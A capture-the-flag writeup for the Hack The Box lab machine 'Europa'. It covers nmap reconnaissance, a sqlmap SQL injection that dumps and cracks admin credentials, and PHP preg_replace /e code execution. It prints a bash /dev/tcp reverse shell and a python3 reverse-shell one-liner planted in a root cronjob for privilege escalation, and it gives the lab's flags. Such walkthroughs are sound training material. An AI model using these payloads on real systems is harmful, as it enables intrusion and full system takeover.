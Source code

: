 # Writeup by: hexp https://www.hackthebox.eu/profile/14319
#
# Europa
#### 10.10.10.22

**Nmap**

```{r, engine='bash', count_lines}
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6b:55:42:0a:f7:06:8c:67:c0:e2:5c:05:db:09:fb:78 (RSA)
|   256 b1:ea:5e:c4:1c:0a:96:9e:93:db:1d:ad:22:50:74:75 (ECDSA)
|_  256 33:1f:16:8d:c0:24:78:5f:5b:f5:6d:7f:f7:b4:f2:e5 (EdDSA)
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| ssl-cert: Subject: commonName=europacorp.htb/organizationName=EuropaCorp Ltd./stateOrProvinceName=Attica/countryName=GR
| Subject Alternative Name: DNS:www.europacorp.htb, DNS:admin-portal.europacorp.htb
| Issuer: commonName=europacorp.htb/organizationName=EuropaCorp Ltd./stateOrProvinceName=Attica/countryName=GR
| Public Key type: rsa
| Public Key bits: 3072
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2017-04-19T09:06:22
| Not valid after:  2027-04-17T09:06:22
| MD5:   35d5 1c04 7ae8 0f5c 35a0 bc49 53e5 d085
|_SHA-1: ced9 8f01 1228 e35d 83d3 2634 b4c1 ed52 b917 3335
|_ssl-date: ERROR: Script execution failed (use -d to debug)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Opening :443 and :80 in browser doesn't give us anything relevant. However this line in the nmap scan looks interesting.

```
| Subject Alternative Name: DNS:www.europacorp.htb, DNS:admin-portal.europacorp.htb
```

So lets change our hosts file accordingly and add:

```
10.10.10.22		admin-portal.europacorp.htb
```

Opening https://admin-portal.europacorp.htb now, redirects us to a login form. 
Lets see if the email or password is vulnerable to sql injection:

```
sqlmap -u https://admin-portal.europacorp.htb/login.php --data="email=abc'&password='" --dbms="MySQL" --technique=E  --dump --threads 8 --dbs

Database: admin
Table: users
[2 entries]
+----+----------------------+--------+---------------+----------------------------------+
| id | email                | active | username      | password                         |
+----+----------------------+--------+---------------+----------------------------------+
| 1  | admin@europacorp.htb | 1      | administrator | 2b6d315337f18617ba18922c0b9597ff |
| 2  | john@europacorp.htb  | 1      | john          | 2b6d315337f18617ba18922c0b9597ff |
+----+----------------------+--------+---------------+----------------------------------+
```

Awesome, we got a login name: **admin@europacorp.htb** and password hash: **2b6d315337f18617ba18922c0b9597ff**.
Decrypting the md5 hash with some online tools will translate to: **SuperSecretPassword!**
So our login is
**admin@europacorp.htb:SuperSecretPassword!**

Pretty sure we need to exploit the **OpenVPN Config Generator** located at https://admin-portal.europacorp.htb/tools.php. So after filling in a IP address a config gets generated with our IP address filled in at the locations of **ip_address**. After googling a bit we found out that the php function **preg_replace** is exploitable.

Okay intercepting the POST with BurpSuite and send it to the Repeater will leave us with a screen like this:
![index.php](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Europa/images/europa_burp.png "BurpSuite")


Because we have full access to the regex expression that is used in preg_replace();
We can pass the **e** modifier which will make the text being executed. I only want it to be executed once so I picked a pattern that only occurs once. As you can see I used **/remote_address/e** as the pattern and **phpinfo()** as the text. It executes perfectly as shown in the screenshot below.

![index.php](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Europa/images/burp_info.png "phpinfo")

So lets put our payload in the ipaddress parameter which is as follows:

```
system("/bin/bash%20-c%20'bash%20-i%20>%26%20/dev/tcp/10.10.14.14/12345%200>%261'");
```
And send it while listening with netcat on port 12345
```
nc -nvlp 12345
```
![index.php](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Europa/images/shell.png "shell")

Perfect we got shell! We can find the user flag at /home/john/user.txt

```
2f8d40cc05295154a9c3452c19ddc221
```
Alright our next step is priv esc. 
There seems to be a directory called cronjobs lets see what is inside..

```
/var/www/cronjobs$ cat clearlogs
cat clearlogs
#!/usr/bin/php
<?php
$file = '/var/www/admin/logs/access.log';
file_put_contents($file, '');
exec('/var/www/cmd/logcleared.sh');
?>
```
So apparently this script calls another script located at /var/www/cmd/logcleared.sh, lets see if we can make it spawn another reverse shell with python3.

So I created a logcleared.sh containing this code:

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.14",12346));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
and did
```
chmod 777 logcleared.sh
```
After waiting a minute listening with netcat on port 12346 we got another reverse shell with root privileges. 
Now simply cat the root.txt at /root/ et voilà :
```
7f19438b27578e4fcc8bef3a029af5a5
```